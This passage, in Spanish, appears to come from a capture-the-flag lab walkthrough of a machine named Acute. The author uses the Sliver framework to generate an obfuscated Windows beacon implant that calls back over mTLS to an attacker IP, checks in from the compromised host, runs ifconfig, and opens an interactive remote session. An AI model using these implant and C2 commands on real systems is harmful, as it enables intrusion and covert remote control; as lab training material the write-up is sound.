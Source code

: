 Sabiendo que ahora si que podemos comunicarnos, vamos a crear un beacon a través de mtls.
```console
[server] sliver > generate beacon --mtls 10.10.14.125 --os windows --arch amd64 --format exe --seconds 5 --jitter 3

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 29s
[*] Implant saved to /home/pointedsec/Desktop/acute/content/DEVELOPING_BELL.exe

```

Y vemos que lo tenemos.
```console
[server] sliver > beacons

 ID         Name              Transport   Hostname     Username        Operating System   Last Check-In   Next Check-In 
========== ================= =========== ============ =============== ================== =============== ===============
 17f341b1   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies   windows/amd64      4s              2s            

```

Ahora con `use` podemos interactuar con el beacon.

```console
[server] sliver (DEVELOPING_BELL) > ifconfig

[*] Tasked beacon DEVELOPING_BELL (2fb97711)

[+] DEVELOPING_BELL completed task 2fb97711

+-----------------------------------------+
| Ethernet 2                              |
+-----------------------------------------+
|  # | IP Addresses   | MAC Address       |
+----+----------------+-------------------+
| 14 | 172.16.22.2/24 | 00:15:5d:e8:0a:01 |
+-----------------------------------------+
1 adapters not shown.
```

Vemos que no estamos en el DC, obviamente.

Ahora que ya tenemos nuestro beacon establecido, vamos a crear una sesión para ganar una consola interactiva.

Simplemente ejecutamos `interactive` y automáticamente se generará una sesión si todo sale bien.
```console
[server] sliver (DEVELOPING_BELL) > interactive

[*] Using beacon's active C2 endpoint: mtls://10.10.14.125:8888
[*] Tasked beacon DEVELOPING_BELL (6e4a8415)

[*] Session 9245de33 DEVELOPING_BELL - 10.129.136.40:49846 (Acute-PC01) - windows/amd64 - Fri, 06 Sep 2024 22:27:11 CEST

[server] sliver (DEVELOPING_BELL) > sessions

 ID         Transport   Remote Address        Hostname     Username        Operating System   Health  
========== =========== ===================== ============ =============== ================== =========
 9245de33   mtls        10.129.136.40:49846   Acute-PC01   ACUTE\edavies   windows/amd64      [ALIVE] 

```
